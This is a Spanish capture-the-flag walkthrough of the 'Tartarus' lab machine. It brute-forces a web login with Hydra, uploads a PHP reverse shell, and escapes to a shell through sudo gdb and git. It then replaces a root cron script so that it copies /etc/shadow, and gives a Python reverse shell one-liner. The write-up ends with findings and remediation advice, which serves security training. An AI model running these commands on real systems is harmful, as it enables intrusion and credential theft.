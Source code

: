 # Tartarus
Máquina sencilla pero con privesc interesante
## Initial Scan
```
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 ftp      ftp            17 Jul 05 21:45 test.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.95.54
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 98:6c:7f:49:db:54:cb:36:6d:d5:ff:75:42:4c:a7:e0 (RSA)
|   256 0c:7b:1a:9c:ed:4b:29:f5:3e:be:1c:9a:e4:4c:07:2c (ECDSA)
|_  256 50:09:9f:c0:67:3e:89:93:b0:c9:85:f1:93:89:50:68 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

## Enum
### FTP
El login anonymous esta permitido, conectemonos y veamos 
```
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 .
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 ..
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 ...
-rw-r--r--    1 ftp      ftp            17 Jul 05 21:45 test.txt
```
Accedemos la directorio ... y vemos un file llamado yougotgoodeyes.txt

Lo leemos y su contenido es:

```
/sUp3r-s3cr3t
```
Parece un directorio de la pagina web lo tendremos en cuenta a la hora de enumerar el HTTP

### HTTP

Mirando en robots.txt encontramos lo siguiente
```
User-Agent: *
Disallow : /admin-dir

I told d4rckh we should hide our things deep.
```
Un directorio y lo que podria ser un user ''d4rckh''

Si accedemos al directorio en cuestion tenemos una lista de usuarios y una de contraseñas, podemos usarlas para el SSH tal vez

Parece que en el directorio que encontramos antes gracias al FTP tenemos un login, sería otro buen sitio para probar con hydra, parece que al logearnos nos dice si la contraseña o el usuario son incorrectas, que amable sujeto el desarrollador

Pillamos los users validos
```
hydra -L user.txt -P credentials.txt 10.10.193.188 http-post-form '/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^:Incorrect username!'
```
Enox es un user valido, busquemos ahora su pass

```
 hydra -l enox -P credentials.txt 10.10.193.188 http-post-form '/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^:Incorrect password!'
 > [80][http-post-form] host: 10.10.193.188   login: enox   password: P@ssword1234
```
Vamo a logearno

### Exploit

Con las credenciales validas para enox nos logeamos y tenemos una opción para subir archivos, parece que no filtra extensiones pero no nos dice donde se almacena vamos a tirar de gobuster
```
/images (Status: 301)
```
Subimos la php reverse shell de Pentest Monkey y estamos dentro

## Privesc

```
User www-data may run the following commands on ubuntu-xenial:
    (thirtytwo) NOPASSWD: /var/www/gdb
```
Saltemos a thirtytwo mediante el siguiente comando
```
sudo -u thirtytwo /var/www/gdb -nx -ex '!sh' -ex quit
```
Una vez dentro de thirtytwo vemos lo siguiente
```
User thirtytwo may run the following commands on ubuntu-xenial:
    (d4rckh) NOPASSWD: /usr/bin/git
```
Saltemos a d4rchkh
```
sudo -u d4rckh /usr/bin/git branch --help config
!/bin/sh
```
Ya somos d4rchkh veamos que tenemos a nuestra dispocision

```
-rwxrwxrwx 1 root   root    129 Jul  5 21:45 cleanup.py
```
Ese archivo es sospechoso
```
*/2 *   * * *   root    python /home/d4rckh/cleanup.py
```
Y vemos que se ejecuta en el crontab, vamos a sustituir el script por este
``` 
# -*- coding: utf-8 -*-
#!/usr/bin/env python
import os
import sys
try:
	os.system('cp /etc/shadow /home/d4rckh/shadow ; chmod 777 /home/d4rckh/shadow')
except:
  pass
```
Vemos que funciona, podemos o bien tratar de invocar una reverse shell o crackear el shadow.
```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

Mediante la reverse shell accedemos facilmente como root y ya tenemos la máquina

# Analisís de la intrusión
### Sensible data leak
El sitio web nos permite saber si un usuario existe o no, esto reduce bastante el tiempo necesario para un ataque existoso de fuerza bruta
### Bruteforcing allowed
El sitio web no bloquea la conexión tras un gran numero de intentos de login
### Unrestricted File Upload
No existe ningun tipo de comprobación respecto a los archivos que pueden ser subidos mediante el servicio web
### Privileged command execution
Poder ejcutar ciertos comandos como otros usuarios nos permitiio movernos lateralmente a traves de varios usuarios 
### Writable scriipt executed as root
El script clenaup.py es editable por el usuario d4rckh y es ejecutado como root mediante el crontab eso nos lleva a poder escalar privilegios

# Soluciones
### Sensible data leak
Eliminar el mensaje de usuario incorrecto y cambiarlo por el mismo que se usa para la contraseña incorrecta
### Unrestricted File Upload
Añadir una serie de filtros para los principales tipos de archivo que el servidor puede ejecutar (phpX , phtm , aspx ...) evitaria este problema
### Privileged command execution
El uso de gdb como otro usuario es cuanto menos extraño y creo que deberia ser deshabilitado directamente, en cuanto a git, si puede ser necesario para acceder a repositorios del otro usuario, añadir la clave del usuario a las autorizadas del repo seria una mejor idea
### Writable scriipt executed as root
Si es necesario que se ejecute este script con permisos de root se deberían de tomar medidas para que no pudiera ser editado ni sustituido por una usuario comun, trasladar este script a la carpeta de root seria mas apropiado
